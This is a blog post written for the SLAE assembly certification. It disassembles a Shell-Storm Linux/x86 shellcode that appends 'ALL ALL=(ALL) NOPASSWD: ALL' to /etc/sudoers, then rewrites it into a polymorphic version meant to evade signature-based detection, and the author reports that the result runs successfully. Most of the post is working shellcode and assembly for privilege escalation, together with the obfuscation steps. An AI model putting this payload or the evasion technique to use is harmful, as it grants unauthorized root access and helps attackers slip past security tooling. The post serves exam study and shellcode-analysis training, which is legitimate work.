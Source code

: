 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - force reboot
date:   2019-03-06
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 3 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* UThe polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The 3rd shellcode we will try to make a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-62.php](http://shell-storm.org/shellcode/files/shellcode-62.php)

The length is 86 bytes.  To fit the requirements for the exam, we have to make a version no greater than 150% of the original, giving us a maximum of 129 bytes.

Let's check the shellcode and what it does:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open

Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at a polymorphic version.

So let's zero out EAX and push it to the stack.  I am going to subtract EAX from itself to get 0, I will update the stack pointer myself then place the value at the new ESP location.  This creates some variation on how we are pushing a value to the stack.  Remember, the stack grows towards 0 so we subtract 4 from esp in order to make room for the value we want to put on the stack.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.  I have decided to split up the pushes if any signatures match on the dword pushes for sudoers.  I left the /etc as a dword to mix up the combinations of pushes since /etc does not necessarily mean we are up to no good.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ECX and EAX:

EAX is already 0, so we can and ECX with EAX in order to zero out ECX.  We then add the argument value we need to CX mixing it up since the original used mov instructions.  We then use add to AL for the syscall value since EAX is already zero'd out and make the syscall.
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next, we move the return value into EBX.  The original uses a mov instruction so we can just replace that with xchg. 

zero out EAX by subtracting it from itself, then push the null value using our manual stack manipulation. 

Then we will push the string to the stack.  This time we have just split the word PASS into two word pushes vs 1 dword push.

Then ESP's value is moved into ECX.  The variation that I will use is to subtract ECX from itself to make it zero, then add esp to it so that ECX = ESP.
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, EDX and EAX. Once those args are prepared, it will be time to make the syscall.

My EDX was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c. So I used XOR to make EDX zero, then moved the proper argument value into DL.  EAX is still zero from previous instructions at this point, so I just add 0x4 to get our syscall value.
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update AL for the call to 'close'.
```nasm
mov al, 0x6
int 0x80
```
For the last call, we need to zero out EBX and make EAX = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes and runs successfully.
